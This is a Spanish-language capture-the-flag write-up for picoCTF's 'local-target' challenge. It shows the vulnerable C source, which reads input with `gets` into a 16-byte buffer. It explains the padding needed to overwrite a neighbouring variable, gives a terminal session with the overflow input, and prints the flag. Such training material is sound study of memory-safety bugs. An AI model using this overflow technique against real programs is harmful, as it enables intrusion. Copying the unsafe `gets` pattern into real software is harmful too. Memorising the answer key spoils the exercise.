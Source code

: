 ## Descripción

Smash the stack Can you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/518/local-target). You can view source [here](https://artifacts.picoctf.net/c/518/local-target.c). And connect with it using: `nc saturn.picoctf.net 65341`


## Hints
+ Do anything you can to change `num`.
+ When you change `num`, view the value as hexadecimal.

## Solución

Para cambiar el valor de num, al analizar el codigo fuente nos damos cuenta que input tiene un limite de bytes, se prueba su capacidad colocando caracteres al azar, esto da como resultado que se ocupan 24 caracteres o bytes para llenar el buffer, posteriormente despues de este buffer lleno se puede cambiar el valor de la variable num el sigueinte caracter despues de llenar el buffer debe de ser el numero que se requiere, en este caso el 65 o A en sistema ascii.

``` c
#include <stdio.h>
#include <stdlib.h>

int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}

```

``` bash
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/Examen_parcial_3/BinaryExplotation/02_Local_Target]
└──╼ $nc saturn.picoctf.net 55521
Enter a string: \x4d\x4c\x4b\x4a\x49\x48A

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/Examen_parcial_3/BinaryExplotation/02_Local_Target]
└──╼ $


```



## Flag
```picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}```



## Notas adicionales




## Referencias
+ [Buffer overflow ](https://0xrick.github.io/binary-exploitation/bof2/)
